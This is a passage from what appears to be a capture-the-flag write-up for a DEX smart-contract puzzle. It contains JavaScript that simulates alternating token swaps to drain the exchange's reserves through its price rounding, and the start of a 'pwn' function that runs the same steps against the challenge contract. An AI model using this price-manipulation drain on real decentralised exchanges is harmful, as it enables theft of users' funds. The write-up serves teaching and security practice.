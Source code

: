 ```js
        sa = price(t1_dex, t2_dex, t2_dex);
      }

      // from (t2) changes for a amounts
      t2_player -= a;
      t2_dex += a;

      // to (t1) changes for sa amounts
      t1_player += sa;
      t1_dex -= sa;
    }

    console.log(
      `Trade #${i}
        D1: ${t1_dex}
        D2: ${t2_dex}
        P1: ${t1_player}
        P2: ${t2_player}
        Gave: ${a} Token ${i % 2 ? '1' : '2'}
        Took: ${sa} Token ${i % 2 ? '2' : '1'}`
    );
  }
}
// simulate(100, 100, 10, 10);
```

In the simulation, if you do not check whether the swap amount is greater than the balance of DEX, you would try to take more money than DEX has; consequently reverting the transaction. For this reason, when we go to negative values with the initially calculated swap amount, we re-calculate so that the swap amount is exactly the balance of DEX.

In the formula:

```js
a_s = p_from * (d_to / d_from) = d_to
```

means that `p_from` should be equal to `d_from`.

We can solve the puzzle by simply implementing the simulation above so that it actually calls the contract.

```js
async function pwn(maxiters = 10) {
  // initial settings
  const T1 = await contract.token1();
  const T2 = await contract.token2();
  const DEX = contract.address;
  const PLAYER = player;
  let a, sa;
  let [t1_player, t2_player, t1_dex, t2_dex] = (
    await Promise.all([
      contract.balanceOf(T1, PLAYER),
      contract.balanceOf(T2, PLAYER),
      contract.balanceOf(T1, DEX),
      contract.balanceOf(T2, DEX),
    ])
  ).map(bn => bn.toNumber());

  console.log(`
  Initial
    D1: ${t1_dex}
    D2: ${t2_dex}
    P1: ${t1_player}
    P2: ${t2_player}`);

```